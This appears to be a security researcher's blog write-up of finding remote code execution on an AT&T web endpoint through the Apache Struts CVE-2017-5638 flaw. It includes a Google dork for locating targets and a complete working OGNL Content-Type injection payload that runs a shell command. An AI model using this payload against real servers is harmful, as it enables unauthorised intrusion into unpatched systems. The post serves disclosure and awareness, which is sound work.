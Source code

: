 ```yaml
---
layout: post
title: "Remote Code Execution in AT&T"
---
```

I was pentesting AT&T to see if I could find a vulnerability (as one does), around 4-5 days after CVE-2017-5638 was released.   Apache Struts 2 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 is vulnerable to **Server-Side Template Injection**, which allows attackers to execute commands on any vulnerable server. Basically, the file upload interceptor for these vulnerable versions "attempted to resolve error messages using a potentially dangerous function that evaluates OGNL." It's not actually a vulnerability within the Jakarta request wrapper, but rather in the file upload interceptor. <br><br>
I instantly was curious about this vulnerability and went to see if AT&T ran Struts, so I started off with a simple Google dork: `site:att.com + ext:action` and *A LOT* of results came up! I grabbed a random one:  `https://www.att.com/tobrcontract/tobrinfotc.action`<br><br>
I opened up Burp Suite, intercepted the request and sent it to the Repeater. I added this payload in the content-type header to see if it was vulnerable: 
```java
Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).! (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='uname -a').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} 
```
I sent the request and to my surprise, the command executed!<br><br>
![Code Execution](/images/att-rce.png "RCE")
<br><br>
I was absolutely astounded that after a week of this 0day being released, that such a big company would still be vulnerable WHEN they had a security team and bug bounty program! I also identified a subdomain that was vulnerable.<br> All goes to show that if you are WORKING in information security, it would be smart to pay attention to the community and to the news so you can protect yourself.<br><br>
Regardless, that's how I could've pwned AT&T, which would have affected their hundreds millions of customers (<font color="#E22A3C">~147 million</font> wireless customers in the U.S. and Mexico). 
<br><br>
Thanks for reading!<br><br>
**Corben Douglas** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity

